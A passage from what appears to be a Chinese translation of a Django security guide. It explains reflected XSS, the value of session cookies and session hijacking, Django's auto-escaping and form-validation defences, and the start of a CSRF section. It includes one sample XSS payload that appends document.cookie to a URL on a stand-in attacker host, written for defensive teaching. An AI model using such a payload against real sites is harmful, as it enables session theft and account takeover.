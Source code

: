 毫不奇怪，浏览器会显示一个带有不祥信息的警告框-`pwned`。

此攻击在当前浏览器（如最新的 Chrome）中失败，控制台中将显示以下错误消息：拒绝执行 JavaScript 脚本。在请求中找到的脚本的源代码。

如果您想知道一条简单的警报消息会造成什么危害，请记住，任何 JavaScript 代码都可以以相同的方式执行。在最坏的情况下，用户的 cookie 可以通过输入以下搜索词发送到攻击者控制的站点：

```py
<script>var adr = 'http://lair.com/evil.php?stolen=' + escape(document.cookie);</script> 
```

发送 cookie 后，攻击者可能会发起更严重的攻击。

# 为什么你的饼干很值钱？

也许有必要了解为什么 Cookie 会成为几次攻击的目标。简单地说，访问 Cookie 允许攻击者模仿您，甚至控制您的 web 帐户。

要详细了解这一点，您需要了解会话的概念。HTTP 是无状态的。无论是匿名用户还是经过身份验证的用户，Django 都通过管理会话在一定时间内跟踪他们的活动。

会话由客户端的会话 ID（即浏览器）和存储在服务器端的类似字典的对象组成。会话 ID 是一个随机的 32 字符字符串，作为 cookie 存储在浏览器中。每次用户向网站发出请求时，其所有 cookie（包括此会话 ID）都会随请求一起发送。

在服务器端，Django 维护一个会话存储，将该会话 ID 映射到会话数据。默认情况下，Django 将会话数据存储在`django_session`数据库表中。

一旦用户成功登录，会话将注意到身份验证已成功，并将跟踪该用户。因此，cookie 成为后续事务的临时用户身份验证。任何获得此 cookie 的人都可以将此 web 应用程序用作该用户，这称为**会话劫持**。

# Django 如何帮助

您可能已经注意到，我的示例是在 Django 中实现视图的一种极不寻常的方式，原因有两个：它没有使用模板进行呈现，也没有使用表单类。他们都有 XSS 预防措施。

默认情况下，Django 模板自动转义 HTML 特殊字符。因此，如果您在模板中显示了搜索字符串，那么所有标记都是 HTML 编码的。这使得无法注入脚本，除非通过将内容标记为安全的方式显式关闭脚本。

在 Django 中使用表单类来验证和清理输入也是一种非常有效的对策。例如，如果您的应用程序需要一个数字雇员 ID，那么请使用一个`IntegerField`类，而不是更宽松的`CharField`类。

在我们的示例中，我们可以在搜索词字段中使用`RegexValidator`类来限制用户使用字母数字字符，并允许您的搜索模块识别标点符号。尽可能严格地限制用户输入的可接受范围。

# Django 可能帮不上忙的地方

Django 可以通过模板中的自动转义防止 80%的 XSS 攻击。对于其余的场景，您必须注意执行以下任务：

*   引用所有 HTML 属性，例如，将`<a href={{link}}>`替换为`<a href="{{link}}">`
*   使用`custom`方法在 CSS 或 JavaScript 中转义动态数据
*   验证所有 URL，特别是针对 JavaScript 等不安全协议
*   避免客户端 XSS（也称为基于 DOM 的 XSS）

作为反对 XSS 的一般规则，我建议在输入时过滤，在输出时转义。请务必严格验证和消毒（过滤）任何输入的数据并将其转换（转义），然后将其具体发送给用户，如果需要用 HTML 格式支持用户输入（如注释），请考虑使用 MaskDon。

输入时过滤，输出时转义。

# 跨站请求伪造

**跨站点请求伪造**（**CSRF**）是一种欺骗用户在访问另一个站点时在网站上进行不必要的操作的攻击，该网站已通过身份验证。比如说，在论坛中，攻击者可以在页面中放置 IMG 或 IFRAME 标记，向经过身份验证的站点发出精心编制的请求。
